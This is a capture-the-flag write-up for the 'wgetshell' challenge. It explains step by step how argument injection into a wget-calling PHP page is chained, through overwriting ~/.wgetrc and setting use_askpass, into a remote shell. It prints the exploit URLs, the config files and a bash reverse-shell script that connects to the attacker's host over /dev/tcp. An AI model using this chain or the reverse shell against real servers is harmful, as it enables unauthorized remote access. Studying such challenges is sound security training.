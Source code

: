 # wgetshell

## Solution

[Example exploit](exploit.py)

The goal of this challenge is to get shell on the server.

There's no command injection vulnerability but only argument injection with only one controllable parameter, how can we do that?

Let's take a look at "GNU Wget 1.21.1-dirty Manual":
https://www.gnu.org/software/wget/manual/wget.html

According to the doc, there is a `--use-askpass=command` option that make wget execute an external executable binary/script to ask password. So the main idea is to find out a way to control this option.

### Step 1: Arbitrary file write (write to ~/.wgetrc)

If the `~/.wgetrc` exists, wget would automatically load this file and the options written in the file would affect the behavior of wget.

This would be useful for exploiting.

To achieve "arbitrary file write", just using `--config=./wgetrc` option. The exploit would download `ftp://<your_ip>/wgetrc2` to `~/.wgetrc`.

**wgetrc1**
```
input=urls1.txt
output_document=~/.wgetrc
```

**urls1.txt**
```
ftp://<your_ip>/wgetrc2
```

**exploit**
```
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/wgetrc1
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/urls1.txt
http://<challenge_ip>/wget.php?url=--config=wgetrc1
```

### Step 2: Download executable binary/script

There is a `--preserve-permission` option that make wget preserve the permission that set up on ftp server to local downloaded file.

**wgetrc2**
```
input=urls2.txt
```

**urls2.txt**
```
ftp://<your_ip>/pwn
```

**pwn**
```
#!/bin/bash
bash -c "bash -i < /dev/tcp/<your_ip>/8888 1<&0 2<&0"
```

**exploit**
```
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/urls2.txt
http://<challenge_ip>/wget.php?url=--preserve-permission
```

### Step 3: Arbitrary file write (overwrite ~/.wgetrc to set use_askpass)

After step 2, we have created a "pwn" file with x permissioin, it's time to set use_askpass in `~/.wgetrc`.

You can use the same method as step 1 to arbitrary overwrite the file.

**wgetrc3**
```
input=urls3.txt
output_document=~/.wgetrc
```

**urls3.txt**
```
ftp://<your_ip>/wgetrc4
```

**wgetrc4**
```
use_askpass=./pwn
```

**exploit**
```
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/wgetrc3
http://<challenge_ip>/wget.php?url=ftp://<your_ip>/urls3.txt
http://<challenge_ip>/wget.php?url=--config=wgetrc3
```

### Step 4: Get shell

Finally, we can execute `./pwn` by calling wget to download any url.

**exploit**
```
http://<challenge_ip>/wget.php?url=0
```


## Another Solution

This method was used by `freefa1111` team who got first blood on this challenge.

If you try to run wget with `wget http://example --use-askpass=/bin/sh` command, there is an intersting error message showed up.

```
$ wget http://example --use-askpass=/bin/sh
/bin/sh: 0: Can't open Username for 'http://example':
Error reading response from command "/bin/sh Username for 'http://example': ": Success
```

From the message, we can see the `Username for 'http://example': ` string is treated as first argument to be passed to /bin/sh. So if we make a file on the path: `Username for 'http:/example': `, the sh would happily execute it for us.

And yes, we definitely can create the file by constructing a wgetrc.

I didn't write the exploit with this solution, so try it for yourself :D

